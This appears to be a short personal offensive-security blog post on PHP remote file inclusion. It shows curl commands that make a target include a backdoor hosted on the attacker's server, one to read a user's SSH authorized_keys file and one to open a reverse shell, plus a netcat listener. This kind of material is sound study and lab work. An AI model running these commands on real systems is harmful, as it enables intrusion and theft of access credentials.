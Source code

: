 ```yaml
---
layout: post
title: Remote File Inclusion - PHP Web Shells
titledate: 08/30/23
tags: ["infosec","offsec", "web", "rfi", "exploit", "php", "shell"]
---
```


for RFI vulns just like the php data:// wrapper the allow_url_include option must be enabled in teh php web application

rfi vulns allow us to include files over http or smb 

<h3>/usr/share/webshells</h3>

there are plenty of good shells out there that can also be included from online hosted repos

in this example, we will host a webshell on our own web server that creates a backdoor, as state above, we could point to one that is hosted online

    $ /usr/share/webshells/php/python3 -m http.server 80

now we can point to the hosted webshell to execute our command

    $ curl "http://vulnapp.com/home/index.php?page=http://192.168.1.1/simple-backdoor.php&cmd=cat%20/home/don/.ssh/authorized_keys"

and we can utilise the same functionality to establish a reverse shell by utilizing a reverse shell php script

    $ /usr/share/webshells/php/python3 -m http.server 80

start the web server hosting our script

    $ nc -nlvp 443

    $ curl "http://vulnapp.com/home/index.php?page=http://192.168.1.1/php-reverse-shell.php" 
